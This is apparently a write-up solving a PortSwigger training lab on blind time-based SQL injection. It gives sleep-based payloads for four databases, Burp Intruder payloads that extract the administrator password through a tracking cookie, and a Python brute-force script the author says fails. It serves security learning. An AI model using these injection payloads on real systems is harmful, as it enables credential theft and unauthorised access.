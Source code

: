 # [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the administrator user.

## conditional time delay

- oracle:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;`
```

- mssql:

```sql
SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10';`
```

- postgresql:

```sql
select * from scientist WHERE (SELECT 'a' FROM pg_sleep(5))='a';`
```

- mysql:

```sql
SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1;
```

## Solutions

1. detected postgresql based on time delay:

    `TrackingId='||pg_sleep(10)--;`

2. find length of admin password using burp's intruder:

    - positions:

        ```http
        TrackingId='%3b+SELECT+CASE+WHEN+(SELECT+LENGTH(password)+FROM+users+WHERE+username%3d'administrator')%3d'§§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--+;
        ```

    - payloads: 1->30
    - resource pool: maximum concurrent requests: 1
    - add column `response received`
    - result: 20

        ![length password](./../img/lab-14-length-password.png)

3. Find password: using SUBSTRING (postgresql) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

        ```sql
        TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
        ```

    - payloads:
    - Set 1: 1->20 (length of password)
    - Set 2: a->z 1->9
    - result:
        ![result.png](./../img/lab-14-result.png)

4. Login to admin account => Lab Solved

## Python

fail: every response has only 1 second delay, cookie passing problem ?

```python
import requests

len_password=20
host='http://0a96008804637cf2c093efdd000f0096.web-security-academy.net/'
cookies = {'TrackingId': 'a', 'session': 'OAdNNdXedgMwEVRd6H6I1kgZYpAs0dRY'}

password = ''

all_characters = 'a1234567890qwertyuiopsdfghjklzxcvbnm'

for i in range(1, len_password + 1):
    for c in all_characters:
        cookies.update({'TrackingId': f"x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i},1)='{c}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"})
        resp = requests.get(host, cookies=cookies)
        print(resp.request.headers)
        print(c + ":" + str(resp.elapsed.total_seconds()))
        if resp.elapsed.total_seconds() > 10:
            password += c
            print('Password:' + password)
            break
```
